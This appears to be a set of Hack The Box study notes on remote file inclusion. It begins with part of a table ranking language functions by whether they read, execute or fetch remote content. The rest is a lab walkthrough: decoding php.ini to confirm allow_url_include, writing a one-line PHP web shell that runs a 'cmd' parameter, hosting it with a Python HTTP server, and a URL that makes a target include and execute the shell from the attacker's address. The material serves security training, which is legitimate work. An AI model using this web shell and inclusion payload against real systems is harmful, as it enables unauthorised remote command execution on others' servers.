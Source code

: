 | `URLClassLoader`                    | ✅                | ✅           | ✅              | Can load classes from remote URLs                         |
| `Class.forName()`                   | ✅                | ✅           | ❌              | Local classes only, but often misused                     |
| `javax.script`                      | ✅                | ✅           | ✅              | When evaluating remote scripts                            |
| `import`                            | ✅                | ✅           | ✅              |                                                           |
| **Go**                              |                  |             |                |                                                           |
| `plugin.Open()`                     | ✅                | ✅           | ❌              | Local shared objects only                                 |
| `http` package                      | ✅                | ❌           | ✅              | Explicitly for remote content                             |
| `os/exec`                           | ✅                | ✅           | ✅              | Can execute commands that fetch remote content            |
| **Rust**                            |                  |             |                |                                                           |
| `include!` macro                    | ✅                | ✅           | ❌              | Compile-time only, local files                            |
| `std::fs`                           | ✅                | ❌           | ❌              | Local filesystem only                                     |
| `reqwest`                           | ✅                | ❌           | ✅              | HTTP client for remote content                            |
| **ASP.NET**                         |                  |             |                |                                                           |
| `@Html.RemotePartial()`             | ✅                | ❌           | ✅              | MVC-specific                                              |
| `@Html.Partial()`                   | ✅                | ❌           | ❌              | Local views only                                          |
| `System.Reflection.Assembly.Load()` | ✅                | ✅           | ✅              | Can load assemblies from byte arrays (potentially remote) |

## Verify RFI
```shell-session
alakin2504@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

## Remote Code Execution with RFI
```shell-session
alakin2504@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

## HTTP
```shell-session
alakin2504@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```
